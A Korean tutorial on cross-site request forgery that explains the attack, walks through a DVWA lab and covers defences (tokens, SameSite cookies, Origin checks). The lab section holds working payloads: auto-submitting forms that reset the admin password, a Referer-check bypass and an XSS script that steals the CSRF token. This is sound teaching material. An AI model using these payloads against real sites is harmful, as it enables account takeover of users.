

## 1. CSRF 개요

**CSRF(Cross-Site Request Forgery, 사이트 간 요청 위조)** 는 인증된 사용자의 권한을 이용하여 공격자가 원하는 요청을 사용자 모르게 실행시키는 공격이다.

브라우저는 동일 사이트에 대한 요청 시 쿠키를 자동으로 첨부한다. CSRF는 바로 이 동작을 악용한다. 공격자는 피해자가 이미 로그인된 사이트에 대한 악의적 요청을 피해자 브라우저를 통해 몰래 전송한다.

**대표 시나리오**: 피해자가 은행 사이트에 로그인된 상태에서 공격자의 사이트를 방문하면, 공격자 사이트의 HTML이 자동으로 이체 요청을 피해자 브라우저에서 전송한다. 서버는 유효한 세션 쿠키가 포함된 요청이므로 정상 요청으로 처리한다.

---

## 2. XSS와의 차이점

| 구분 | XSS | CSRF |
|------|-----|------|
| 공격 목표 | 피해자 브라우저에서 **악성 스크립트 실행** | 피해자의 **인증 상태를 이용**한 요청 위조 |
| 공격 방향 | 사이트 → 피해자 브라우저 | 외부 사이트 → 피해자 브라우저 → 대상 서버 |
| 핵심 악용 요소 | 입력값 미검증, 출력 미인코딩 | 브라우저의 쿠키 자동 전송 |
| 방어 핵심 | 출력 인코딩, CSP | CSRF 토큰, SameSite 쿠키 |

---

## 3. CSRF 공격 흐름



---

## 4. CSRF가 성립하는 조건

1. 피해자가 대상 사이트에 **로그인되어 있음** (유효한 세션 존재)
2. 브라우저가 요청 시 **쿠키를 자동으로 전송**
3. 서버가 **요청 출처(Origin)를 검증하지 않음**
4. 공격자가 **요청 형식을 예측 가능**함 (예측 불가 토큰 없음)

---

## 5. 공격 벡터

### 5.1 GET 요청 CSRF

GET 파라미터로 상태를 변경하는 서버가 있으면 img 태그 하나로 공격이 가능하다.

```html
<!-- 피해자가 이 페이지를 열면 자동으로 송금 요청 전송 -->

```

### 5.2 POST 요청 CSRF

자동 submit되는 숨김 form을 이용한다.

```html
<form id="csrf-form" action="http://target.com/action" method="POST">
  <input type="hidden" name="param1" value="value1">
  <input type="hidden" name="param2" value="value2">
</form>
<script>document.getElementById('csrf-form').submit();</script>
```

### 5.3 JSON CSRF (Content-Type 우회)

일부 서버는 `Content-Type: application/json` 만 처리하므로 직접 form으로 전송이 불가능하다. 하지만 `text/plain` 으로 전송하거나 플래시 등의 우회 기법이 사용된다.

---

## 6. DVWA 실습

**환경**: Kali Linux(192.168.0.10) → DVWA on Ubuntu(192.168.0.30/DVWA/)

### 6.1 Security Level: Low

#### 정상 요청 구조 파악

DVWA > CSRF 페이지에서 비밀번호 변경 기능에 접근한다. Burp Suite로 정상 요청을 캡처하면 다음과 같은 구조임을 확인할 수 있다.

```
GET /DVWA/vulnerabilities/csrf/?password_new=test&password_conf=test&Change=Change HTTP/1.1
Host: 192.168.0.30
Cookie: PHPSESSID=<세션ID>; security=low
```

서버가 `Referer` 헤더나 CSRF 토큰을 검증하지 않는다는 점을 확인한다.

#### CSRF 공격 페이지 제작

Kali(`192.168.0.10`)의 웹 루트에 공격 페이지를 작성한다.

```html
<!-- /var/www/html/csrf_attack.html -->
<!DOCTYPE html>
<html>
<head><title>무료 경품 당첨!</title></head>
<body>
  <h1>축하합니다! 경품에 당첨되셨습니다!</h1>
  <!-- 피해자가 페이지를 열면 img 로드 시 비밀번호 변경 요청이 자동 전송됨 -->
  
  <p>잠시만 기다려주세요...</p>
</body>
</html>
```

#### Kali에서 공격 페이지 서비스

```bash
# 방법 1: Apache 활성화
sudo service apache2 start

# 방법 2: Python 임시 서버
python3 -m http.server 8888
```

#### 공격 실행

1. DVWA에 `admin` 계정으로 로그인한다 (세션 쿠키 생성).
2. 같은 브라우저에서 `http://192.168.0.10:8888/csrf_attack.html` 에 접속한다.
3. 페이지 로드 시 `` 태그가 자동으로 비밀번호 변경 요청을 DVWA 서버로 전송한다.
4. DVWA 서버는 유효한 `PHPSESSID` 쿠키가 포함되어 있으므로 정상 요청으로 처리한다.
5. `admin` 계정 비밀번호가 `hacked` 로 변경된다.

> **확인 방법**: DVWA 로그아웃 후 `admin` / `hacked` 로 로그인 시도

#### POST 방식 CSRF

GET 파라미터를 막은 경우에도 숨김 form + 자동 submit 스크립트로 우회할 수 있다.

```html
<!DOCTYPE html>
<html>
<head><title>이벤트 페이지</title></head>
<body onload="document.getElementById('csrf-form').submit();">
  <form id="csrf-form"
        action="http://192.168.0.30/DVWA/vulnerabilities/csrf/"
        method="POST">
    <input type="hidden" name="password_new"  value="pwned">
    <input type="hidden" name="password_conf" value="pwned">
    <input type="hidden" name="Change"        value="Change">
  </form>
  <p>이벤트 페이지 로딩 중...</p>
</body>
</html>
```

#### Burp Suite CSRF PoC Generator 사용

Burp Suite Pro에서는 캡처된 요청으로부터 CSRF PoC를 자동 생성할 수 있다.

1. Burp Suite에서 비밀번호 변경 요청을 캡처한다.
2. 요청 패널 우클릭 → **Engagement tools** → **Generate CSRF PoC**
3. 생성된 HTML을 복사하여 공격 페이지로 사용한다.

---

### 6.2 Security Level: Medium — Referer 헤더 검증 우회

Medium 레벨에서는 서버가 `Referer` 헤더를 검증한다. 소스 코드를 보면 `$_SERVER['HTTP_REFERER']` 에 서버 호스트명이 포함되어 있는지 확인한다.

```php
// Medium 레벨의 검증 로직 (예시)
if (stripos($_SERVER['HTTP_REFERER'], $_SERVER['SERVER_NAME']) === false) {
    // 거부
}
```

**우회 방법**: 공격 페이지 경로에 대상 서버 호스트명을 포함시킨다.

```
http://192.168.0.10/192.168.0.30/csrf_attack.html
```

`Referer` 헤더가 `http://192.168.0.10/192.168.0.30/csrf_attack.html` 이 되어 `192.168.0.30` 이 포함되므로 검증을 통과한다.

> **핵심 취약점**: 단순 문자열 포함 여부만 검사하므로 경로에 서버명을 삽입하여 우회 가능

---

### 6.3 Security Level: High — CSRF Token 분석

High 레벨에서는 서버가 랜덤 CSRF 토큰을 생성하여 폼에 숨김 필드로 삽입한다. 요청 시 서버 세션의 토큰과 비교한다.

```php
// High 레벨의 토큰 검증 (예시)
if ($_GET['user_token'] !== $_SESSION['session_token']) {
    // 거부
}
```

**토큰 구조**: 요청마다 다른 랜덤 토큰이 생성되므로, 공격자가 토큰 값을 사전에 알 수 없다.

**CSRF + XSS 조합 공격**: CSRF 토큰이 있어도 동일 사이트에 XSS 취약점이 있다면, XSS를 통해 토큰을 읽어 CSRF 공격에 활용할 수 있다.

```javascript
// XSS 페이로드로 CSRF 토큰 추출 후 요청 전송
fetch('/DVWA/vulnerabilities/csrf/')
  .then(res => res.text())
  .then(html => {
    const token = html.match(/user_token['"]\s+value=['"]([^'"]+)/)[1];
    return fetch('/DVWA/vulnerabilities/csrf/?password_new=xss_hacked&password_conf=xss_hacked&Change=Change&user_token=' + token);
  });
```

---

## 7. 방어 방법

### 7.1 CSRF Token (Synchronizer Token Pattern)

가장 널리 사용되는 방어 방법이다. 서버가 각 세션(또는 요청)마다 예측 불가한 랜덤 토큰을 생성하고, 모든 상태 변경 요청에 이 토큰을 포함시켜 검증한다.

```php
<?php
// 세션 시작 및 CSRF 토큰 생성
session_start();

if (empty($_SESSION['csrf_token'])) {
    $_SESSION['csrf_token'] = bin2hex(random_bytes(32));
}

// POST 요청 처리 시 토큰 검증
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    if (!isset($_POST['csrf_token']) ||
        !hash_equals($_SESSION['csrf_token'], $_POST['csrf_token'])) {
        http_response_code(403);
        die('CSRF token validation failed.');
    }
    // 정상 처리
    $password_new = $_POST['password_new'];
    // ...
}
?>

<!-- HTML 폼에 토큰 삽입 -->
<form method="POST" action="/change_password">
  <input type="hidden" name="csrf_token" value="<?= htmlspecialchars($_SESSION['csrf_token']) ?>">
  <input type="password" name="password_new" placeholder="새 비밀번호">
  <button type="submit">변경</button>
</form>
```

### 7.2 SameSite 쿠키 속성

쿠키에 `SameSite` 속성을 설정하면 크로스 사이트 요청 시 쿠키가 전송되지 않는다.

| 속성값 | 동작 | 설명 |
|--------|------|------|
| `Strict` | 크로스 사이트 요청 시 쿠키 미전송 | 가장 강력, 외부 링크 클릭 시도 쿠키 미포함 |
| `Lax` | GET 탐색(링크 클릭)은 허용, POST 등은 차단 | 대부분의 CSRF 방어, 사용성 균형 |
| `None` | 항상 전송 (Secure 속성 필수) | CSRF 방어 없음 |

```php
// PHP에서 SameSite 쿠키 설정
setcookie('PHPSESSID', session_id(), [
    'expires'  => 0,
    'path'     => '/',
    'secure'   => true,
    'httponly' => true,
    'samesite' => 'Strict',  // 또는 'Lax'
]);
```

```
# Apache 응답 헤더로 일괄 설정
Header edit Set-Cookie ^(.*)$ "$1; SameSite=Strict; Secure"
```

### 7.3 Referer / Origin 헤더 검증

요청의 출처를 `Referer` 또는 `Origin` 헤더로 검증한다. `Origin` 헤더가 더 신뢰성이 높다.

```php
<?php
function verify_origin(): bool {
    $allowed = ['https://yourdomain.com', 'https://www.yourdomain.com'];

    // Origin 헤더 우선 검증
    if (isset($_SERVER['HTTP_ORIGIN'])) {
        return in_array($_SERVER['HTTP_ORIGIN'], $allowed, true);
    }

    // Referer 헤더로 보조 검증
    if (isset($_SERVER['HTTP_REFERER'])) {
        $referer_host = parse_url($_SERVER['HTTP_REFERER'], PHP_URL_HOST);
        return in_array('https://' . $referer_host, $allowed, true);
    }

    return false; // 헤더 없으면 거부
}

if ($_SERVER['REQUEST_METHOD'] === 'POST' && !verify_origin()) {
    http_response_code(403);
    die('Invalid origin.');
}
```

> **주의**: Referer 헤더는 브라우저 설정이나 프라이버시 도구에 의해 생략될 수 있다. 단독으로 사용하지 말고 CSRF 토큰과 병행한다.

### 7.4 Double Submit Cookie 패턴

서버 세션 없이도 CSRF 방어가 가능한 Stateless 방식이다.

1. 서버가 랜덤 값을 쿠키로 설정한다.
2. 클라이언트는 요청 시 같은 값을 폼 파라미터 또는 헤더로도 함께 전송한다.
3. 서버는 쿠키 값과 파라미터 값이 일치하는지 확인한다.

공격자는 Same-Origin Policy로 인해 피해자의 쿠키를 읽을 수 없으므로, 일치하는 값을 폼에 포함시킬 수 없다.

```javascript
// 클라이언트 측: 쿠키에서 토큰 읽어 헤더에 포함
const csrfToken = document.cookie.match(/csrf_token=([^;]+)/)?.[1];

fetch('/api/change_password', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/json',
        'X-CSRF-Token': csrfToken,  // 헤더로 전송
    },
    body: JSON.stringify({ password: 'new_password' }),
});
```

### 7.5 CAPTCHA

민감한 작업(비밀번호 변경, 송금, 탈퇴 등)에 CAPTCHA를 추가하면 자동화된 CSRF 공격을 차단할 수 있다. 다만 UX 저하가 발생하므로 중요도에 따라 선택적으로 적용한다.

---

## 8. 방어 기법 비교

| 방어 기법 | 구현 난이도 | 방어 강도 | 비고 |
|-----------|------------|-----------|------|
| CSRF Token | 중간 | 높음 | 가장 표준적인 방법 |
| SameSite=Strict | 낮음 | 높음 | 최신 브라우저 지원 필요 |
| SameSite=Lax | 낮음 | 중간 | 대부분의 CSRF 차단 |
| Origin/Referer 검증 | 낮음 | 중간 | 단독 사용 시 우회 가능성 |
| Double Submit Cookie | 중간 | 중간 | Stateless 환경에 적합 |
| CAPTCHA | 낮음 | 중간 | UX 저하 |

---

## 9. 핵심 정리

- CSRF는 **피해자의 인증 상태(세션 쿠키)** 를 악용하여 피해자 모르게 요청을 전송하는 공격이다.
- 성립 조건: 피해자 로그인 상태 + 브라우저 쿠키 자동 전송 + 서버의 출처 미검증
- DVWA Low 레벨에서는 CSRF 토큰과 출처 검증이 없어 `` 한 줄로 공격이 가능하다.
- **가장 강력한 방어 조합**: CSRF 토큰 + `SameSite=Strict` 쿠키
- XSS 취약점이 함께 존재하면 CSRF 토큰도 우회될 수 있으므로 XSS 방어도 병행해야 한다.
